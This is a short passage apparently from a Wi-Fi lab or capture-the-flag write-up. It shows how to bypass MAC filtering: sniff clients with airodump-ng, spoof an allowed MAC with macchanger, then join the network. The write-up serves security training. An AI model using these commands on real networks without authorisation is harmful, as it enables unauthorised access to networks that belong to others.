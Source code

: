 When I'm trying to connect to `192.168.10.1`:

![](Images/Recon06_02.png)

The connection is filtred by MAC, I have to find it and spoof it:

```shell
sudo airodump-ng wlan1 -w scanchall06 -c 6 
```

![](Images/Recon06_03.png)

```shell
sudo systemctl stop network-manager
sudo ip link set wlan1 down
sudo macchanger -m B0:72:BF:44:B0:49 wlan1
sudo ip link set wlan1 up
sudo wpa_supplicant -D nl80211 -i wlan1 -c wifi-guest.conf
sudo dhclient wlan1 -v 
```
